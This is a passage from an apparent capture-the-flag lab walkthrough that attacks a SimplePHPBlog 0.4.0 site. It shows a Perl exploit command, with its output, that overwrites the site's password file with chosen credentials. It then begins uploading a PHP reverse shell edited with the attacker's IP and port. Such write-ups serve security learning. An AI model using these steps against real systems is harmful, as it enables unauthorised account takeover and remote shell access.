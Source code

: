 Here we could see the page .
![blog page](second_blog_pg.png)

While inspection of its source code we can find it runs on blog 0.4.0

![inspected_code](third_inspected_src_code.png)

## Exploit

On further searches I could find out that the PHP Blog 0.4.0 -Multiple remote vulnarability. Download the exploit and run the exploit.
![exploit_db]( exploit_db_blog.png)
```bash

┌──(kali㉿kali)-[~/Downloads]
└─$ perl 1191.pl -h http://10.10.10.100/blog -e 3 -U user -P password


                  SimplePHPBlog v0.4.0 Exploits
                             by
                     Kenneth F. Belva, CISSP
                    http://www.ftusecurity.com
________________________________________________________________________________
Running Set New Username and Password Exploit....


Deleted File: ./config/password.txt
./config/password.txt created!
Username is set to: user
Password is set to: password


*** Exploit Completed....
Have a nice day! :)

```
This will add the username and password specified by us to the webpage. In this case they are user and password respectively.

From the current webpage we can get to  a login page where we will enter the added username and password.
![entering_creds](four_enter_creds.png)

## Upload reverse shell 

After the submission of credentials the page will be re-directed to a page with upload image option.
![cred_re-direct](five_img-upload_page.png)

From the option choose Upload Image and chose the file php-revese-shell.php  from the location usr/share/webshells/php
Make necessary changes like the attacker ip and port number for the file.

